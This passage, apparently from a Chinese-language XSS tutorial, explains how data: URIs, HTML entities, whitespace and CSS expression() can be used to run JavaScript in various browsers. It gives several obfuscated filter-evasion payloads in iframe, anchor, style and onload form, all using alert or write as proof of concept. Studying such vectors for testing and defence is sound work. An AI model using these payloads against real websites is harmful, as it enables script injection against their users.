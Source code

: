 上面代码可测出当前浏览器中，javascript 字符串插入哪些字符仍然可以执行 alert。

```
<a href="data:text/html;charset=utf-8;base64, PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+Og=="> click</a> 
```

上面代码在 Firefox 和 Opera 中可以弹出当前域，Chrome 与 Safari 可以弹，但是继承不到 a 标签所在的域，弹出为空，IE 不能执行。

Firefox 中 data:协议默认 MIME 类型为 text/html，即使你定义了一个他根本不知道的类型，他也会把它当作 text/html 类型：

```
<iframe src="data:µ,<script>alert(1)</script>"> </iframe>
<iframe src="data:&#ffff;,<script>alert(2)</script>"></iframe> 
```

利用之前总结的结论，最终可以写出下面可让 Firefox 执行的代码：

```
<iframe/
\/src="data:µ,%3cscript%3ealert(document.dom&#x25;61in+[])%3c/script%3e"> </iframe> 
```

并且火狐中会忽略 data:协议中的所有空白字符：

```
<iframe src="data:.&#x2c &#x25;
3
cscri pt%
3 e alert(1)
%3c /s &#x43 RIP t>"> 
```

最终可以混淆成这样：

```
<iframe src="d&#097t&#x0061:. &#x2c &#x25; 3
c s cri &#x00D; pt %
3 e al\u0065rt(1)
%3c /s &#x43 RI &#x009 P t>"
data:%,<b> < s &#10 c r i p t>alert(1) < /s &#10 c r i p t> 
```

之前提到的标签，在 IE 中 data:协议都不能执行 javascript，但是在 style 标签里，可以通过@import 命令插入 data:执行 javascript：

```
<style>
@import "data:,*%7bx:expression(write(1))%7D";
</style>
<style>
@imp\ ort"data:,*%7b- = \a %65x\pr\65 ssion(write(2))%7d"; </style>
<style>
<link rel="Stylesheet" href="data:,*%7bx:expression(write(3))%7d"> 
```

下面讨论一下事件即 onload、onerror 等事件之后的混淆方法：

```
<body onload="al&#000101rt&#8233
/*&#00*/(document. dom&#x5cu0061in)//"> 
```
